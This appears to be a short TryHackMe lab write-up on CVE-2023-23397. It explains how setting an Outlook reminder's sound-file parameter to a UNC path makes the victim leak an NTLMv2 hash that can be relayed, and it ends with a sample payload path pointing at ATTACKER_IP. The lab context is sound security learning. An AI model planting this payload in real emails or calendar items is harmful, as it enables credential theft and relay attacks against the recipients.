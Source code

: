 ```yaml
---
layout: post
title: "Outlook"
date: 2023-06-04 
categories: ["Hands-on", "TryHackMe"]
tags: "TryHackMe","CVE-2023-23397"
---
```


# Outlook NTLM Leak
**Scenario:**
*The victim recieves a malicous email that redirects them to the attacker's SMB Server. This happens by busing CVE-2023-23397.*
## CVE-2023-23397

The exploit happens by manipulating the parameter of the reminder sound path location. Simply changing the path wont do anything. the **PidLidReminderFileParameter** should point to **Universal Naming Convention (UNC)** path instead of a local file. **PidLidReminderOverride** should be configured to true to be able to override the default the confirgurations.

When the Victim connects to the attacker's SMB server, the victim's remote server would send the NTLM. The attacker can use the NTLMv2 hash to authenticate by using the relay attack. 

```bash
\\ATTACKER_IP\foo\bar.wav
```